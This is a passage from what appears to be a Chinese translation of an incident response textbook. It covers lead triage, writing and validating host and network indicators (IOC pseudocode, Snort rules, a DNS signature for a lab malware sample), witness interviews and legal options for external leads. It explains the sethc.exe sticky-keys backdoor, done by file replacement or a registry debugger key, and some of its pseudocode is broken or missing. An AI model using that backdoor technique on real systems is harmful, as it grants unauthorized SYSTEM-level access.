- 验证领导的真实性。
- 确定领导的上下文。

当潜在的领导来源于人类或自动监控系统时，我们会尝试收集支持领导的其他数据。例如，如果网络入侵检测设备警报生成，表明已连接到已知的命令和控制服务器，我们将开始收集支持数据的过程：确定内部起源的位置（如果由于NAT而未在警报中提供），检查生成警报的原始数据包，并搜索该主机进行的其他连接记录。这个初始的努力的范围仅限于与潜在领导直接相关的信息。通过检查潜在领导中提供的数据，我们可以朝着更明确的行动前进。

我们执行的第二个操作是尝试验证领导的类型。它是否完整？它是否是基于方法指标或特定原始数据存在的“脆性”领导？这个过程因数据源而异，尤其是当人类是提供潜在领导的人时。要确定真实性，您需要了解用于生成领导的可观察量，并了解生成器使用的过程。如果简单地是“网络监视器观察具有偏移量x的数据包的流量”，并且您知道签名的误报率很低，那么这是一个简单的检查。如果人类参与其中，您无法轻易确定该人是否确实观察到了他们认为的东西，那么这个领导可能不值得您团队的立即关注。

最后，我们确定领导的上下文。系统或人类是否报告了被误解为是预期问题的结果的信息？这在人类来源中更常见，但如果没有正确配置，则自动化的来源也可能提供同样误导的数据。

这三个步骤并不适用于每个领导，因为在调查期间，来源本身可以立即得到验证。此外，该过程相当非正式。这些步骤作为一个框架，为必须确定领导是否值得追求的团队提供服务。

### 对线索采取行动

您的团队有一堆好的线索：一张潜在可疑 IP 地址的电子表格，恶意文件的 MD5 哈希列表以及一些情报，表明您组织中的系统正在通过 TCP/443 与命令和控制服务器通信。现在怎么办？

我们需要将这些线索转化为可行的指标，这种指标可以检测正在进行的事件以及未来的攻击。您还希望能够检测与您当前拥有的信息没有直接关系的可疑条件。毕竟，您知道为了允许这些可疑连接的发生，还必须发生其他事件。在本节中，我们将介绍一个迭代过程，该过程在调查的生命周期内发生。

我们还涵盖了更传统的线索——那些需要人类对话的线索，这是您在一本调查计算机犯罪的书中可能没有预料到的话题。

> 注意：
作为 IR 专业人员，在企业范围内完成任务所使用的工具选择很少。正如我们在第 7 章中所讨论的那样，Guidance Software 和 AccessData 都有 Live Response 插件或版本，支持检索数据。我们的公司 Mandiant 也有一个用于企业 IR 的产品和平台，以及可以在较小环境中使用的免费工具。系统管理员也可以使用微软系统中心配置管理器（以前是 SMS）执行所呈现功能的子集。但是，我们不能撒谎。出于一些坚实的技术原因，我们在 Mandiant 更喜欢我们自己的工具，而不是其他工具。当我们提供指标时，我们将使用 OpenIOC 标准，但元素可以轻松适应您的企业 IR 解决方案。
> 

#### 将线索转化为指标

IR 团队生成的大多数线索都由恶意操作的可检测特征组成。它们可以用两种类型的指标表示。第一种类型是基于属性的指标，描述了恶意软件或行动的一组已知可观察特征，例如注册表键、MD5 哈希或具有唯一名称的互斥体。一些线索较不具体，其中一组特征可以定义恶意或可疑行为，例如 /Windows/Help 目录中的意外可执行文件。我们将这些称为基于方法论或异常的指标。这些都可以转化为指标，可与单次或企业范围的实时响应一起使用，以帮助确定事件的范围。请记住，我们主要使用指标来确定事件的范围；发现一次，搜索到处。

线索可以导致基于主机的指标、基于网络的指标或两者的组合。想象一下，能够利用从反向工程远程访问木马中学到的所有情报，并快速指派您的网络和服务器团队执行现有数据的搜索和监视未来事件的能力。

#### 指标生成的生命周期

指标开发的生命周期始于某些初始信息，正如人们所期望的那样。任何潜在的数据源都可以为此过程提供数据。最有用的结果来自高保真度的源，例如取证检查或高质量的恶意软件分析报告。有时，初始信息仅由疑似攻击的简单特征组成。在任何情况下，负责生成指标的团队成员在在将指标引入企业或导入网络安全监视器之前，应遵循一定的流程，尤其是如果指标来自外部来源。

指标开发是一个迭代的过程，目标是生成可靠的、可持续的签名，可以生成可靠的信息。这始于指标生成的第一次尝试。在收集初始数据后，您开始创建/编辑（指标）阶段，如图5-1所示。该过程不仅仅是打开文本或XML编辑器并复制MD5散列值。您应该对指标语言和处理器有一个良好的理解。通常，处理引擎的功能都有很好的文档。你通常需要留意的是限制和细微差别。 Snort平台的一个可能会带来麻烦的细微差别是预处理程序在处理传入数据流时所需的时间。变量的任何数量（例如数据包到达率和分段数据包的数量）的变化都可能导致本来运行良好的传感器丢失数据包和遗漏数据。另一个例子是几个取证分析套件中使用的索引引擎。在某些情况下，特殊字符被用作单词分隔符或在构建搜索索引时被简单地忽略，使分析师无法执行有用的搜索，如果指标需要特殊字符，如$和@。有经验的分析师会理解这些限制，并知道如何减轻它们的影响。


一旦生成了指标，就需要在将其投入使用或使用之前进行验证。在我们的指标开发生命周期中，验证阶段分为两种方法：与指标相关的数据和环境常见的数据。通过这两种方法进行验证，可以确保指标在预期目的下精确和准确。我们将在本章后面讨论指标验证。

从验证中学到的信息反馈到指标中以进行细化。这个周期会一直持续下去，直到指标足够成熟，以至于调查人员可以可靠地使用指标。这个过程确保指标产生了预期的结果。在这一点上，它可以考虑部署或传播，这是发布（指标）阶段。

让我们从生命周期图中深入探讨编辑和验证步骤。随着调查的进行，这个周期将在众多指标中反复出现。如果没有结构，很容易创建产生大量额外工作的嘈杂指标。请注意，我们提供了一个Snort签名的可能限制的例子；但是，该过程同样适用于基于主机的指标。我们将讨论这两种类型。

##### 编辑基于主机的指标

基于主机的指标是我们对端点执行二进制分类的手段；端点要么是您调查的利益所在，要么不是。我们通过组装一组描述我们知道可疑的条件的可观察特征来创建指标。这些可观察特征是否导致直接确定系统是否受损取决于该组的成员的质量。
一个好的基于主机的指标由许多可观察特征组成，这些特征对特定活动具有特定性，同时又足够通用，适用于该活动的衍生品。这可能是一个很难平衡的问题，特别是当可观察特征基于薄弱或不完整的线索时。以下是一个最佳描述这种情况的例子。
第一个要检查的场景是创建一个主要基于文件属性或其执行创建的工件的IOC。对于此练习，我们将检查《实用恶意代码分析》（No Starch Press，2012）一书中的二进制文件。我们选择了第3章实验室中的二进制文件Lab03-02.dll。您可以从书籍网站下载实验室二进制文件的完整集合，下面列出了该书的网站。

> 在网上获取它
practicalmalwareanalysis.com/labs
> 

给定这个二进制文件，让我们看一个非常简单的指标，它将识别或描述文件。此指标由单个高置信度检查组成-文件的MD5哈希值。接下来的几页中，我们将提供伪代码而不是结构化的IOC语言指标。这是第一个：

```
if
{
(file MD5 hash == "84882c9d43e23d63b82004fae74ebb61")
}
then
raise alert
```

这个威胁指标（IOC）具有一些非常好的属性。IOC正在寻找一个单一的、独特的属性——MD5哈希值。这提供了高置信度，如果有匹配，我们已经找到了我们要找的东西。MD5哈希值的误报率非常低——我们很少或从不会在不是我们要找的文件上获得匹配。然而，这个IOC也非常有限。如果在我们要查找的文件中改变了一个位，这个IOC将不再匹配，因为MD5哈希值将不同。因为攻击者很容易改变文件内容但仍保留功能——例如更改嵌入式IP地址——这个IOC不会有效很长时间。我们并不认为使用MD5哈希是一个坏主意。然而，只在IOC中使用MD5哈希是不理想的。我们需要寻找其他属性。
Windows可执行文件（PE）有许多数据结构，我们也可以检查和潜在地在IOC中使用它们的优点。例如，PE头包含编译时间戳。这是编译器在编译文件时插入的日期和时间。有时攻击者会编译一个二进制文件，然后手动对其进行更改。在某些情况下，编译时间戳足够唯一，可以单独搜索。然而，我们通常将时间戳与其他内容配对，例如文件大小，以尽量减少误报的几率。所以让我们更新我们之前的IOC，包括这些新条件：

```powershell
if
{
(file MD5 hash ==  "84882c9d43e23d63b82004fae74ebb61")
OR (
(PE header Time/Date == "2010/09/28 01:00:25 UTC")
            AND
(file size == "24065")
)
}
then
raise alert
```

IOC仍在寻找MD5哈希，但现在我们还检查了编译时间戳和文件大小。如果攻击者更改了文件中的一些位，使用这个版本的IOC，我们更有可能捕获它。但是，如果攻击者从二进制文件中添加或删除数据，则大小将不匹配，我们将无法找到该文件。让我们进一步改进IOC。

如果您分析此二进制文件，您将发现它可以在系统上执行许多操作。例如，该二进制文件可以安装Windows服务，还可以连接到Internet上的某个站点。这两个事实都是需要了解的，因为我们可以查找相关工件。重要的是要认识到这些项目不是文件的直接属性。当执行二进制文件时，在主机上创建这些工件。换句话说，我们正在寻找执行文件的效果，而不是寻找文件本身。将这些类型的项目包含在IOC中是有益的，因为该二进制文件可能不再存在于系统中，或者IOC正在寻找的文件属性可能已更改。正如我们将在本章后面讨论的那样，理解攻击生命周期也很重要，这样您就可以在IOC中包括任何相关的工件。对于此场景，我们只会查找两个其他项目：二进制文件创建的特定服务名称和与恶意软件连接的主机名相关的DNS缓存工件。更新后的IOC如下所示：

这个IOC包括条件，使它比我们刚开始时更好。即使在对二进制文件进行一些更改后，IOC也能正常工作，并且IOC现在可以找到二进制文件在主机上创建的工件。当然，如果我们花更多的时间审查二进制文件的所有独特方面以及它所创建的工件，我们可以使它变得更好。因为该列表可能会变得很长，所以我们通常在过少和过多之间寻求平衡。通常，我们的选择取决于文件的可用特征以及整个事件的细节。

提高IOC的另一种方法是描述二进制文件可以执行的操作。这通常是通过检查导入表来完成的。在某些情况下，导入表不起作用——这可能是由于Packer或因为作者编写了二进制文件以手动导入函数。看看我们的示例二进制文件，我们看到有大量的导入。任何单个导入都不足够唯一——大多数恶意软件使用许多其他类型软件通用的功能。然而，唯一的是，函数的子集在单个二进制文件中不常见。我们需要构建具有多个不明显或松散可归属属性的IOC。此IOC捕获了相对独特的导入函数组合：

```powershell
if {
(file PE import function name list) contains
      "CreateServiceA"
} then
AND
"RegCreateKey"
AND
"ReadFile"
AND
"CreateThread"
AND
"InternetOpenA"
AND
"CreateProcessA"
raise alert
```

这个IOC将基于导入函数列表查找二进制文件。只要这不会有显著的变化，攻击者可以修改大部分代码或更改配置选项，我们的IOC仍将识别二进制文件。现在我们已经演示了创建描述给定文件属性的IOC的示例，让我们看一个不同的情况。

很多时候我们需要创建描述攻击者所做的事情的IOC——因为没有相关的恶意软件。因此，让我们构建一个IOC，可以用于检测攻击者可能观察到的典型操作序列。这些IOC称为基于方法的指标，可能将基于属性的指标与被动攻击者留下的工件信息结合起来。一个很好的可以将其特征建模为基于方法的IOC攻击是sethc.exe替换攻击。没有使用恶意软件，因为它包括简单的注册表更改或替换一个文件。Windows平台上的sethc.exe应用程序是一种辅助功能，可以帮助各种残疾人使用Windows。通过快速连续按下shift键来调用它，可以在成功登录之前启动它。攻击者已经使用这个功能来启动一个使用系统特权运行的cmd.exe会话。

执行此攻击有两种主要方式。首先，触发序列（五个按键）将启动位于c:\ windows\system32\sethc.exe的任何可执行镜像。一个简单的替换就可以解决问题。其次，可以在注册表中将cmd.exe添加到sethc可执行文件的调试处理程序中，因为Windows不检查处理程序实际上指向调试器。

我们可以使用什么指标来检测系统是否会出现与sethc.exe相关的一些安全问题？我们可以从文件系统开始，检查sethc.exe二进制文件是否符合预期。在Windows 7 SP0中，c:\ windows\system32\sethc.exe的预期MD5哈希值为40abe0e4b66ea08b1ffa07ceac312402。使用第15章中讨论的PEView，我们还知道存储在PE文件头中的时间/日期戳为2009/07/14 00:13:57 UTC。如果我们可以扫描每个Windows 7 SP0系统，并在路径c:\ windows\system32\sethc.exe中的文件没有这两个属性时获得警报，那么这将是识别受损系统的好方法。

伪代码示例如下。请记住，匹配引擎将在扫描期间在访问的每个节点上计算伪代码。第一个“if”语句在进程到达文件c:\ windows\system32\sethc.exe时进行评估。

```powershell
if {
      (file path == "c:\windows\system32\sethc.exe")
}
then
if{
            (file MD5 hash != 40abe0e4b66ea08b1ffa07ceac312402)
AND
(PE header Time/Date != 2009/07/14 00:13:57 UTC)
}
then
      raise alert
```

然而，您的企业很可能不只运行 Windows 7 SP0。您需要知道您扫描的每个系统的版本和补丁级别，并为每个系统生成额外的逻辑。

```powershell
if {
      (file path == "c:\windows\system32\sethc.exe")
}
then
if
      {
            (file MD5 hash !=
                  (40abe0e4b66ea08b1ffa07ceac312402)
                  OR
                  (8c545f6f1ba83c15b8b02ee4aa62ff11)
            )
            AND
            (PE header Time/Date !=
                 (2009/07/14 00:13:57 UTC)
                 OR
                 (2010/11/20 10:48:58 UTC)
) }
      then
            raise alert
```

指标很快变得难以管理。使用 NOR 运算符或对查找表进行比较是实现此指标的更有效的方法。不幸的是，大多数指标语言不支持 NOR 运算符和查找表。当我们需要实现此指标时，我们不得不退后一步，考虑扫描期间可用的其他元数据。根据我们的经验，攻击者总是用 cmd.exe 替换 sethc 二进制文件。注意到文件大小的差异，我们检查了环境的代表性样本，并发现 cmd.exe 的文件大小总是大于最大的 sethc 二进制文件至少 10%。因此，我们起草了以下伪代码，称为 Sethc CMD Replacement 指标：

```powershell
if {
      (file path == "c:\windows\system32\sethc.exe")
}
then
if
      {
            (file size >= 300000)
} then
raise alert
```

这个指标更简单，执行更快，因为计算哈希是不必要的。我们知道，在环境中 sethc.exe 可能已被一个小于阈值的应用程序替换。我们通过使用其他半唯一属性运行额外的扫描来减轻这种风险。
要确定是否使用了特定图像调试器，可以在注册表中搜索相关的键。用于将命令与 sethc.exe 的图像执行调试器链接的注册表键如下所示。如果此键具有任何值设置，则应检查系统。请记住，匹配引擎将在扫描期间在访问的每个节点上计算伪代码。第一个“if”语句在到达显示的注册表键时进行评估。下面的伪代码称为 Sethc IS Debugger 指标：

```powershell
if {
) }
then
if
(Registry key ==
    "HKLM\Software\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options\"
      (key value contains "sethc.exe")
then
raise alert
```


让我们把伪代码的最后两个片段组合成OpenIOC语言的威胁指标。如果文件系统指标的条件为假或存在所列出的注册表键，则我们希望我们的系统发出警报。前面提到的反常sethc.exe二进制文件的文件系统指标，称为Sethc CMD Replacement指标，如图5-2所示。您可能会注意到，OpenIOC格式指标中的信息与先前呈现的伪代码有些不同。请回忆一下关于了解您正在使用的工具的限制的讨论。这里有两个要注意的区别。首先是OpenIOC格式中的部分路径。我们希望它可以在任何卷上检测到，因此我们在文件的完整路径上使用“包含”术语。第二个是使用范围而不是不等式。这是我们使用的查询工具的限制。匹配引擎不评估不等式。

注册表指标的OpenIOC版本，称为Sethc IS Debugger指标，如图5-3所示。请注意，图中的注册表路径已分割以适应页面宽度。


##### 编辑基于网络的指标

基于网络的指标的目的类似于基于主机的指标：您试图快速确定特定会话是否与您的调查相关。您选择的属性和属性取决于您所使用的监视系统的功能。它们还定义了您创建的指标类型。大多数指标都很简单：“如果会话的前n个字节中存在一组给定的字节，则发出警报”，例如。由于攻击者可以在他们的工具或程序中进行更改，因此这些指标的寿命可能很有限。您看过多少针对像毒藤这样的远程访问特洛伊木马的网络签名？每个恶意软件作者（或在本例中的编辑）在创建PI负载时都可以选择许多选项，这可能会使检测变得困难。如果调查运行了任何显著的时间长度，您可能需要多次编辑恶意软件的网络签名。

在前面的章节中，我们研究了一个名为lab03-02.dll的恶意二进制文件。我们能够识别出DNS缓存工件（DNS缓存主机名包含“[practicalmalwareanalysis.com](http://practicalmalwareanalysis.com/)”），可以在主机扫描期间使用。让我们继续分析，以确定可以用于识别该恶意软件存在的网络签名。
从我们迄今为止学到的内容来看，[恶意二进制文件似乎查找主机名practicalmalwareanalysis.com](http://xn--practicalmalwareanalysis-ud02bdo47c26e9tcdx6bk7mry0hjeex8o5w0au5ny4fy575b.com/)。网络监视器可以轻松检测到此DNS查找；但是，如果部署了不同版本的恶意软件，仅仅依靠DNS查找可能会很麻烦。我们还可以假设二进制文件尝试连接到这个远程系统，但为了组装更好的指标，我们需要更详细地检查二进制文件。我们在后面的章节中讨论网络监视，但是假设您已经在现场网络上捕获了网络流量或进行了足够的恶意软件分析以观察下面显示的行为。
监视DNS标准查询的UDP端口53，其主要字段如下所示，可以捕获查找请求：

```powershell
DNS Query flags: 0x0100
Query Type: A
Query Class: IN
Query String: "practicalmalwareanalysis.com"
```

如果我们参考RFC 1035的第27页“域实现和规范”，我们可以为数据格式构建一个签名。以下文本是RFC的相关摘录。它描述了查询期间我们应该预期观察到的内容。

> 前往Web获取
网络工程任务组的请求评论（RFC）存储库
www.ietf.org
> 

查询的QNAME部分的描述告诉我们，“[practicalmalwareanalysis.com](http://practicalmalwareanalysis.com/)”的简单字符串搜索将失败。有效载荷包含一个字符串序列的空终止序列，每个字符串都有一个单个八位字节保留给字符串的长度。我们预计该查询的QNAME部分将包含以下数据：

```powershell
4.1.2. Question section format
The question section is used to carry the "question" in most queries,
i.e., the parameters that define what is being asked.  The section
contains QDCOUNT (usually 1) entries, each of the following format:
111111 0123456789012345
+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+ || / QNAME / // +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+ | QTYPE | +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+ | QCLASS | +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+
where: QNAME
QTYPE
a domain name represented as a sequence of labels, where each label consists of a length octet followed by that number of octets. The domain name terminates with the zero length octet for the null label of the root. Note that this field may be an odd number of octets; no padding is used.
a two octet code which specifies the type of the query.
The values for this field include all codes valid for a
TYPE field, together with some more general codes which
can match more than one type of RR.
```


前往Web获取网络工程任务组的请求评论（RFC）[存储库www.ietf.org](http://xn--www-f90ep20c2ve.ietf.org/)

查询的QNAME部分的描述告诉我们，“[practicalmalwareanalysis.com](http://practicalmalwareanalysis.com/)”的简单字符串搜索将失败。有效载荷包含一个字符串序列的空终止序列，每个字符串都有一个单个八位字节保留给字符串的长度。我们预计该查询的QNAME部分将包含以下数据：

使用Snort手册，我们可以组装一个签名，在传感器观察到此特定查询时触发警报：

当UDP流量包含“|18|practicalmalwareanalysis|03|com|00|”的内容时，这个签名将使用不区分大小写的搜索触发警报。这个签名的描述是“Lab03-02.dll Malware: [practicalmalwareanalysis.com](http://practicalmalwareanalysis.com/)”，但任何查找都会触发这个警报。通知阈值包括以最小化重复事件为目的。

对于恶意软件作者来说，更改静态主机名是相当简单的。甚至可能会有其他的域名或IP地址没有被恶意软件审查发现。可以建立更好的指标，以识别恶意软件与外部站点之间的实际通信。要获取恶意软件与远程站点之间发送和接收的数据包捕获，我们需要让恶意软件以安全的方式执行。这是一个多步骤的过程，我们将在这里概述。您可以在第15章中找到更多关于这个过程的信息。

在隔离的环境中，我们采取了以下步骤来使恶意软件通信。请注意，关于如何安全地执行恶意软件以进行分析的更多信息可以在第15章中找到。

1. 开始使用tcpdump监控隔离的网络。
2. 将库加载到Windows XP“受害者”系统中，并调用installA方法。
3. 等待恶意软件执行DNS查找，并验证第一个查询为“[practicalmalwareanalysis.com](http://practicalmalwareanalysis.com/)”。
4. 将practicalmalwareanalysis.com域添加到虚假DNS服务器中，将域名指向运行Apache的Linux系统，配置为记录所有请求。
5. 通过卸载和重新加载库并调用installA方法重新启动测试。
6. 观察到与远程主机的连接包含单个GET请求/serve.html。
7. 停止tcpdump并在Wireshark中分析数据包和连接尝试。

如图5-4所示的结果是，恶意库请求URI/serve.html。此外，恶意软件向Web服务器提供了用户代理字符串user-ece3629572。乍一看，该用户代理字符串相当独特。可能会有诱惑将其作为指标的一部分。不幸的是，在这种情况下，恶意软件作者只是将机器名复制到数据包的该字段中。顺便说一下，您可以在您的签名中使用此字段来帮助确定连接的来源，而不管是否使用了NAT或代理。

在这种情况下，我们具有相当弱的指标。恶意库请求的URI很可能会产生误报。尽管如此，部署该签名并观察识别的流量量可能是值得的。以下Snort规则在标准化的HTTP URI中搜索字符串“serve.html”。搜索在客户端到服务器通信上的已建立的流中执行。

```powershell
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (
   msg:"Lab03-02.dll Malware: practicalmalwareanalysis.com";
   flow:established,to_server; content:"serve.html";
   http_uri;classtype:bad-unknown; sid:1000002; rev:1;
)
```


为了提高恶意通信的检测效率，您可能需要创建网络签名来识别从远程站点返回的负载。我们在这里呈现的恶意软件收到了HTTP 404错误；然而，服务器返回的附加信息可能会引起兴趣。当服务器回复实际文件或扩展的状态/错误消息时，该部分通信远不太可能产生误报。

这是一个极大简化的基于网络的引导开发示例。如果您已经使用Snort（或Snort兼容的IDS），您可以找到许多书籍和在线资源，可以帮助您生成高效的警报。

> 前往Web获取
Snort用户手册manual.snort.org
Snort IDS和IPS Toolkit，作者为Beale、Caswell和Baker（Syngress Press，2007）
> 

##### 验证

我们的大多数调查涵盖了数千个系统，其中许多超过了100,000个。您的组织可能很容易达到该数量的端点。在扫描这么多端点时，必须注意指标的特异性以及结果产生的数据量。无论您使用企业级IR系统、部署System Center Configuration Manager还是部署shell脚本，您都需要在环境中的代表性样本系统上运行指标，然后再将它们释放到大量人群中。
在我们之前在图5-1中展示的指标生命周期中，我们展示了在验证过程中执行的两个审查。第一个标题为“指标相关数据”。这看起来很明显，但在生成指标后，您需要验证它是否按预期执行。由于其识别的属性的不同，指标的效果可能会有很大的差异。我们已经讨论了由非常特定的属性组成的指标和由多个不明确或松散可归属属性组成的指标之间的区别。此外，您还需要确保新指标中的属性不仅仅在其生命周期的特定时点上唯一地识别恶意软件或活动。例如，考虑以下攻击生命周期的常见情况：

1. 邮件包含恶意负载发送到组织中。负载是一个可执行文件（一个“拖放器”），对于一个毫不知情的用户来说，它看起来像一个Word文档。
2. 用户相信Word文档是真实的，打开它并启动可执行文件。
3. 可执行文件删除了一个实际的，无害的Word文档，并为用户打开它，同时在后台下载和启动第二阶段的恶意文件。
4. 恶意软件从磁盘中删除了拖放器。
5. 第二级恶意软件继续前进，做恶意软件所做的事情。

一个不那么有效的指标只包含拖放器的MD5、文件名或属性。这种类型的指标是自动化进程扫描电子邮件威胁通常生成的，我们在许多通过非正式渠道分发的“坏文件”电子表格中看到的。它在主机上有效的时间是有限的，通常是在用户无意中启动拖放器之前的几秒钟或几分钟。另一方面，如果分析人员能够更全面地检查电子邮件负载并在了解攻击生命周期后生成指标，则属性也可能包括以下内容：
• 系统预取目录中的文件条目。
• 最近使用（MRU）注册表键中无害Word文档的文件名。
• 如果拖放器使用API调用来获取文件，则第二阶段的检索可能会记录在用户的浏览器历史记录中。
• 托管第二阶段恶意软件的网站的DNS缓存条目。
• 第二阶段恶意软件的文件元数据。

总之，确保进程识别与指标相关的数据，您应该验证您正在寻找什么以及它如何随时间变化在指标本身中被正确捕获。

通常执行的第二种验证类型称为“环境通用数据”。此验证步骤用于将指标的属性与其将部署的环境进行比较。此验证步骤将告诉您，您的指标属性是否与您的环境匹配，并且可能会通过多个错误命中淹没您的调查。为了验证指标是否适用于您的环境，选择一组干净的工作站和服务器，将其用作新指标的测试台。在样本集上运行指标，并确保参数不与未受影响的系统相匹配。如果是，修改指标或查看初始数据以确定更好的方法。在您满意指标不会导致许多误报命中之后，缓慢将其集成到您的调查中。在新环境中完全验证指标通常需要时间。

我们始终考虑的另一个验证是指标在环境中的性能和其影响。如果团队在企业中部署了基于主机的指标，分析师有必要确保系统的影响是众所周知的。为了在IR和IT之间建立平行，无论实际原因是什么，您都将是首个受到指责的人。一旦您拥有一个您认为准备好进行测试的指标，就要确定一组代表环境的系统子集。特别是，您应该在集合中包括服务器类操作系统以及桌面。大多数IR工具会因RAM、存储或正在运行的企业应用程序而使服务器与工作站不同。使用资源管理器观察样本系统上的负载，并确定它是否超过舒适阈值。需要注意的一个重要配置是在扫描虚拟计算环境时。如果在同一硬件上运行多个VM的扫描已计划，您可能会导致故障转移或资源饥饿的风险。

#### 解决内部线索

我们已经谈论了来自系统或安全基础设施的线索，但是可能会有用户或管理员的可能事件初始通知。市场上没有PERL脚本或自动代理可在这些情况下提供帮助。作为IR团队，您可能需要进行采访并收集事件的证人证言。虽然您不需要进行采访或审讯技巧的培训，但请记住以下几点：

- 彻底记录任何陈述。成为一个良好的记录员。事件的陈述或第一手账户可能不是最准确的事情描述，但记录用户何时打开电子邮件或他们在网站上观察到的内容可能在调查后期很重要。最好在采访期间由第二个人进行文档记录。作为主要调查员，您需要积极参与对话。
- 允许受访者讲述故事。他们应该比你说得多。与他们建立关系很重要，考虑到您可能会让受访者处于什么情况之中。想象一下，如果下午有一个从未见过的安全团队成员过来聊天，你会有什么反应。只在受访者恰当地讲述故事时提出澄清问题，避免中断。一旦他们从记忆中回顾事件，重新审视需要更多细节的方面。
- 避免引导问题和那些导致是/否答案的问题。保持问题开放，注意该人如何回忆观察到的事件。
- 
- 在允许受访者表达意见之前，先收集事实。如果系统管理员注意到问题后采取行动，请在询问他们为什么做出决定之前获取这些行动的详细信息并建立时间线。特别重要的是，允许受访者在没有对抗的情况下继续。面试官的负面反应可能会导致受访者隐瞒其他细节。
• 知道何时让其他人介入。面试已采取措施以应对网络攻击的系统管理员是一回事。面试正在接受内部调查的员工则完全不同。您的法律团队应该能够提供指导，并且他们参与过程是必不可少的。
将要记入案例笔记的关键项目是已采取的行动及其发生日期。如果您可以获得管理员或其他人员记录的日志文件或笔记，请将它们保护好。随着时间的推移，个人的记忆会逐渐淡化，因此要尽早进行面试。

#### 解决外部线索

有时，您需要从外部来源获取数据。这通常意味着您需要寻求法律团队的帮助，以协助组装保全或传票请求。通常，外部方没有义务向您提供信息；但是，如果不会造成过度风险，一些人可能会尽力提供帮助。
私人组织无法提供大陪审团传票、2703(d)法院命令或传票，因此它们必须依靠以下方法之一：
• 提起“John Doe”诉讼并传票持有源地址或电子邮件记录的提供者或组织。
• 依靠诉前发现机制。根据州的不同，这些选项可能不可用。
• 如果问题涉及版权侵权，则数字千年版权法提供了诉前识别传票。
• 向执法机构报告事件，并希望他们会进行刑事调查和起诉。
请记住，这些外部线索可能涉及其他受害者。尽管最初的联系可能有点尴尬，但一旦每个人都就可以交换和保护哪些数据达成协议，协调对调查非常有成果。

##### 提交传票以执行发现

根据民事诉讼程序的当地规则，您的法律顾问可能能够提交投诉，这可能会导致民事发现。使用这些工具，您可能能够强制组织（例如ISP）透露有关订阅者的某些信息。提交投诉是律师的标准流程，但他们可能依赖您的团队收集必要的信息。每种情况都可能非常独特，因此与法律团队会面，讨论他们需要哪些信息以及理解他们需要满足启动流程的门槛。这将成为您的响应计划的一部分。

##### 向执法机构报告事件

当你开始追寻外部线索时，你可能会选择向执法机构报告事件，而不是通过民事诉讼采取行动。这个决定可能有很多因素，我们发现大多数组织都喜欢避免通知执法机构。虽然他们的介入可以提供更大更有效的调查工具和法律选项，但避免通知的主要理由只是为了避免公共关系问题。在美国，很少有情况需要通报刑事行为。您的顾问将会知道这些明确界限的存在，并管理通知。
当您的线索指向外国实体（如ISP或托管站点）时，获取信息的过程可能会变得相当复杂。在大多数情况下，外国政府要求通过官方渠道提交民事请求。国务院和联邦执法机构与外国政府保持关系，并提供请求每个国家商业实体信息的途径。该过程可能需要相当长的时间才能完成，我们发现，当他们知道正在完成官方文件工作时，一些公司将响应较少正式的保存请求。
寻求执法机构的帮助有一些优势。如我们早先提到的，他们通常具有更大的调查和起诉能力。他们处置的工具遵循不同的规则。例如，当执法人员向公司送达传票或法院命令以确定订户或客户时，他们通常会收到更快的响应，并且匿名方不会受到通知。另一个优点是，执法机构可以对一方进行刑事诉讼，而无需您的组织承担任何费用。虽然您的调查会产生成本，包括准备支持刑事投诉的材料，但这些成本远不如民事诉讼的负担。如果您已经适当地记录了事件，保持了证据适当的连锁，有一个清晰简明的不法活动画面，并能够以清晰简单的方式传达信息，执法机构应该能够启动公共部门不能采取的步骤——从私人住宅搜索和扣押设备，并从上游站点检索日志。请记住，无论刑事案件的结果如何，组织始终可以进行民事诉讼。民事诉讼中的证明负担是证据的优势，而不是合理怀疑，这有助于恢复损害赔偿以及调查相关费用。

另一个优点是视角。通常情况下，尽管可能不会立即发生，联邦执法机构有能力从众多受害者中汇总数据，并能够识别模式和技术。当正确共享时，这些信息可以在您的补救过程中使用，以帮助防止进一步事件。挑战在于与您通知的机构保持沟通。他们的主要目标是起诉，这意味着信息的传播通常是他们最后考虑的事情。
许多机构参与旨在共享事件信息的行业论坛。通过这些组织，您可以了解您所在行业的其他人面临的问题，并建立非常有用的关系，特别是当外部线索涉及到您的同行时。我们发现目前非常活跃和有益的组包括：
• Infraguard：FBI主办，专注于关键基础设施保护的团体
• FS-ISAC：金融服务信息共享和分析中心
• DIB-CS/IA：国防工业基地网络安全/信息保障

> 在网络上获取它
Infraguard www.infraguard.org
FS-ISAC www.fsisac.com
DIB-CS/IA dibnet.dod.mil
> 

### 那么怎么样呢？

在本章中，我们讨论了一个框架，以帮助分类引线并采取行动，以便您的团队可以有效地分配宝贵的资源。无论您使用什么方法在环境中搜索测试和生成线索的指标，都要记住以下几点。
• 指标的强度仅取决于您用于搜索的工具。一种工具可能会为用户数据提供很好的洞察力，而另一种工具在您检查内核执行的操作时可能更好。了解您使用的每种工具的限制。我们不仅依靠自己的工具，您也应该对任何只依赖自己工具的人持怀疑态度。
• 在部署之前测试和验证指标。在它们生产过程中验证和监视指标的有效性。针对您的基线操作系统以及已知受损系统进行测试。
• 在调查过程中与法律顾问合作，特别是当线索开始解决外部实体时。

### 问题

1. 从《实用恶意代码分析》([practicalmalwareanalysis.com/labs](http://practicalmalwareanalysis.com/labs))一书中，为二进制文件Lab03-03.exe生成主机指标。
2. 2013年2月，Mandiant发布了一份报告，详细介绍了被称为APT 1的组织。该报告概述了许多受害组织观察到的典型攻击进程。在标题为“APT 1：攻击生命周期”的部分中，描述了用于内部侦察的典型过程。使用所描述的方法生成一组指标，以帮助您的组织识别此类活动。请注意，方法指标不一定会识别恶意软件。考虑基于主机和网络的指标。
3. 从《实用恶意代码分析》([practicalmalwareanalysis.com/labs](http://practicalmalwareanalysis.com/labs))一书中，为二进制文件Lab06-02.exe生成主机和网络的指标。请注意，如果您对二进制文件进行动态分析并了解恶意软件正在寻找什么，则可能会生成非常有效的网络签名。

[mikesiko/PracticalMalwareAnalysis-Labs: Binaries for the book Practical Malware Analysis (github.com)](https://github.com/mikesiko/PracticalMalwareAnalysis-Labs)

Binaries for the book Practical Malware Analysis****

## 第6章 发现事件的范围

在这一章中，我们将检测和描述事件与数据收集和分析——本书的两个主要部分结合起来。我们将呈现现实场景，并带领您回顾初始数据，开发线索，收集初步证据，进行高级别审查，然后确定适当的数据收集和保护活动。为了发现事件的范围，您实际上是在进行有限的调查。
